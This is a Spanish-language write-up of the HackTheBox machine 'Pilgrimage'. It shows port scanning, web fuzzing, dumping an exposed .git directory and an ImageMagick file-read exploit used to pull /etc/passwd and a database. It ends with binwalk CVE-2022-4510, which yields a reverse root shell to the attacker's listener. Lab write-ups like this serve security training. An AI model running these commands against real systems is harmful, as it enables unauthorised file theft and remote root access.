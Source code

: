 ```yaml
---
title: HackTheBox - Pilgrimage
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Binwalk (CVE-2022-4510)', 'File Upload']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Pilgrimage/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Pilgrimage Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Binwalk (CVE-2022-4510), File Upload**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Pilgrimage**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Pilgrimage/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports>  <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Pilgrimage/02-versions.png)

> Añadimos el host **pilgrimage.htb** al archivo **/etc/hosts**.
{: .prompt-info }

c. Visitamos la página web

![](/assets/images/HTB/Easy/Pilgrimage/03-web.png)

* Crearemos una cuenta y testearemos un poco con la subida de archivos. Al no encontrar una vulnerabilidad directa en esta subida de archivos lo que haremos es fuzzear la página web.

    ```bash
    root@kali> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "PHPSESSID: dgj72pcndth8qrs1otg3hisue0" 'http://pilgrimage.htb/FUZZ/'

    000000024:   403        7 L      9 W        153 Ch      ".htaccess"
    000000008:   403        7 L      9 W        153 Ch      ".git"
    000000013:   403        7 L      9 W        153 Ch      ".git/logs/"
    000000025:   403        7 L      9 W        153 Ch      ".htpasswd"
    000000023:   403        7 L      9 W        153 Ch      ".hta"
    000000729:   403        7 L      9 W        153 Ch      "assets"
    000004169:   403        7 L      9 W        153 Ch      "tmp"
    000004382:   403        7 L      9 W        153 Ch      "vendor"
    ```

* Usaremos [gitdumper](https://github.com/arthaud/git-dumper) para descargarnos el directorio **.git** encontrado. Encontraremos un ejecutable 'magisk' del cual podemos saber la versión

    ```bash
    root@kali> python3 git_dumper.py http://pilgrimage.htb/.git/ pilgrimage_git
    root@kali> cd pilgrimage_git
    root@kali>./magick -usage
    Version: ImageMagick 7.1.0-49
    <SNIP>
    ```

* Al buscar por vulnerabilidades asociadas a este ejecutable damos con este [exploit](https://github.com/Sybil-Scan/imagemagick-lfi-poc) el cual nos permite leer archivos.

    ```bash
    root@kali> python generate.py -f "/etc/passwd" -o marmota.png
    ```

* Subimos la imagen al servicio web y luego la descargamos para verificar su contenido

  ```bash
    root@kali> ./magick identify -verbose etc_passwd.png 
    <SNIP>
    726f6f743a783a303a303a[Contenido en Hexadecimal]...
    ```

* Al decodear el contenido veremos el fichero **`/etc/passwd`**, pero lo más interesante es que encontramos al usuario **emily**

    ![](/assets/images/HTB/Easy/Pilgrimage/04-user.png)

* Si indagamos en los archivos del directorio .git descargado antes, encontraremos una ruta (**`$db = new PDO('sqlite:/var/db/pilgrimage')`**) a una base de datos **register.php**, con esto en mente y siguiendo el procedimiento anterior, leeremos este archivo

    ![](/assets/images/HTB/Easy/Pilgrimage/05-pass.png)

d. Con esto, ya nos podemos conectar al servicio SSH

```bash
root@kali>  ssh emily@<IP Pilgrimage>
emily@pilgrimage:~$
```

### Escalada de Privilegios 💹

a. Al buscar por procesos que se estén ejecutando en la máquina vemos el siguiente

```bash
emily@pilgrimage:~$ ps -faux
<SNIP>
root   725  0.0  0.0  6816  2972 ?  Ss   05:52   0:00 /bin/bash /usr/sbin/malwarescan.sh
root   741  0.0  0.0  2516   712 ?  S    05:52   0:00  \_ /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
```

* Vemos el contenido de este script

    ```bash
    #!/bin/bash

    blacklist=("Executable script" "Microsoft executable")

    /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
            if [[ "$binout" == *"$banned"* ]]; then
                /usr/bin/rm "$filename"
                break
            fi
        done
    done
    ```

    * El script se activará cada vez que se cree un nuevo archivo en **/var/www/pilgrimage.htb/shrunk**.
    * Luego, se extrae el nombre del archivo.
    * Se usa **/usr/local/bin/binwalk** para extraer data binaria del archivo

b. Si vemos la versión de **binwalk** y consultamos vulnerabilidades sobre esta nos encontraremos con este [CVE-2022-4510](https://www.exploit-db.com/exploits/51249), el cual nos permitirá ejecutar comandos. Para este exploit necesitaremos una imagen cualquiera y luego copiarla al directorio **/var/www/pilgrimage.htb/shrunk** con el fin de activar el script descrito anteriormente

```bash
emily@pilgrimage:~$ python3 exploit.py marmote.jpg 10.10.14.174 443

- Esto creará una imagen binwalk_exploit.png la cual debemos mover a /var/www/pilgrimage.htb/shrunk/
-----------------------------------------------------------------------------------------------------
root@kali> nc -lvnp 443
-----------------------------------------------------------------------------------------------------
emily@pilgrimage:~$ cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
-----------------------------------------------------------------------------------------------------
root@kali> nc -lvnp 443
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.219] 53678
whoami
root
```
